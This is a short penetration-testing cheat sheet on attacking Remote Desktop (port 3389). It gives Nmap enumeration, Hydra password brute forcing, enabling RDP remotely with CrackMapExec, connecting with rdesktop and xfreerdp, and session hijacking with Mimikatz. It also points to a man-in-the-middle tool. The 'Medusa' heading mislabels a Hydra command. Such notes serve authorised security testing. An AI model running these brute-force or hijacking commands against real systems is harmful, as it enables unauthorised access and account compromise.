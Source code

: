 # Port 3389 | RDP

## Enumeration

### Nmap

```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 <IP>
```

## Bruteforce

Brute forcing can easily lock user accounts. If possible enumerate the domain password policy before proceeding.

### Hydra

```bash
hydra -L <User/s.txt> -P <Password/s.txt> rdp://<IP>
```

### Medusa

```bash
hydra -t 4  -l <User> -P <Password/s.txt> rdp://<IP>
```

## Connecting

### Crackmapexec

Requires administrative privileges, enables RDP on the target host.

```bash
crackmapexec smb '<IP>' -u '<User>' -p '<Password>' -M rdp -o ACTION=enable # Enable RDP
```

### rdesktop

```bash
rdesktop -u <Username> <IP>
rdesktop -d <Domain> -u <Username> -p <Password> <IP>
```

### xfreerdp

```bash
xfreerdp /v:'<IP>' /u:'<User>' /p:'<Password>'
xfreerdp /v:'<IP>' /u:'<User>' /p:'<Password>' +clipboard

#Maps specified folder on attacking machine to RDP host
xfreerdp /v:'<IP>' /u:'<User>' /p:'<Password>' +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

## **Hijacking**

This method is not stealthy and will disconnect a users active terminal service session. However, you will also be able to connect to a disconnected session which could be stealthier.&#x20;

This method also requires privileges as SYSTEM on the terminal server host.

### **Mimikatz**

```powershell
Invoke-Mimikatz -Command '"ts::sessions"'
```



Connect to the terminal services session.&#x20;

```powershell
Invoke-Mimikatz -Command '"token::elevate" "ts::remote /id:4"'
```

## **Man-in-the-Middle**

[SETH](https://github.com/SySS-Research/Seth) can be used to perform Man-in-the-Middle attacks over RDP.&#x20;

{% content-ref url="../everything-active-directory/adversary-in-the-middle/rdp-mitm.md" %}
[rdp-mitm.md](../everything-active-directory/adversary-in-the-middle/rdp-mitm.md)
{% endcontent-ref %}

